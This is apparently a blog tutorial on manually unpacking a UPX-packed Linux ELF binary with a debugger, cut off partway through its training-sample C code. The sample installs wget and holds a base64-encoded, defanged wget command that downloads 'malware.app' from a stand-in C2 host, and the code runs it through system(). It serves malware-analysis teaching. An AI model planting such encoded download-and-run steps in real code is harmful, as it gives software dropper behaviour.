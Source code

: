 While there are plenty of ressources on how to do this for PE files, there isn't really the same amount of info available on to do this for ELF files (linux executables). That is why I looked into the necessary steps and tooling and wrote together a little _follow-along_ on this topic.

This post is about manually unpacking a UPX packed ELF binary. Manully as in: dynamic unpacking done by the binary itself and aided by a debugger. Afterwards the process gets dumped to disk for potential further analysis. It also deals with orientation inside the binary and comparing it to the original unpacked version.

A custom sample with a small training wheel is used for this excercise, but there are some thoughts on how to apply this to more real world circumstances under __further thoughts__. These might help you if you are starting out in this area.
The test file (and a lot of knowledge on ELF analysis) was picked up through intezers great [blog series on linux malware analysis](https://www.intezer.com/blog/malware-analysis/elf-malware-analysis-101-linux-threats-no-longer-an-afterthought/). 

## required tooling
I recommend you use [remnux](https://remnux.org/) for this, as it comes with everything that is needed already installed. 
You can also use your own linux box, you just have to install the following:
```
$ sudo apt install gcc strace gdb
```
Replace with your package manager as needed.

If you want to follow along the static analysis section you also need [Ghidra](https://ghidra-sre.org/) and a jdk/jre. I leave the setup up to you. Alternatively use radare2 with [Cutter](https://cutter.re/) or IDA (free).

In general I would also recommend setting up [GEF](https://github.com/hugsy/gef) for use with GDB, but for this excercise it is not really needed and more of a pointer towards a great addon for GDB.


## sample modification
The following code is taken from the [2nd blog post](https://github.com/intezer/ELF-Malware-Analysis-101/blob/master/Part-2-Initial-Analysis/Article-samples/training_sample.c) of the intezer ELF malware analysis series. A simple modification to the `ping` command was made in order to keep the binary from exiting. This affects functionality and only ping will get executed, but the other strings will still be present in memory. This is also the training wheel that was mentioned in the intro. Because ping will be called indefinately, we don't have to deal with setting appropriate breakpoints.

```c
#include <stdio.h>
#include <stdlib.h>

char google_dns_ping[50] = "ping 8.8.8.8";
char some_string[100]= "echo d2dldCBodHRwOi8vc29tZW5vbmV4aXRpbmdjbmNbLl1jb20vbWFsd2FyZS5hcHA=|base64 -d | echo"; 

int ping_google_dns(){
    char output[500];
    int lines_counter = 0;
    char path[1035];
    FILE* fp = popen(google_dns_ping,"r");
    while (fgets(path, sizeof(path), fp) !=NULL){
      lines_counter++;
}
   return lines_counter;
}

int main()
{
  int length = ping_google_dns();
 if (length > 5){
  system("apt-get install wget");
  system(some_string);
```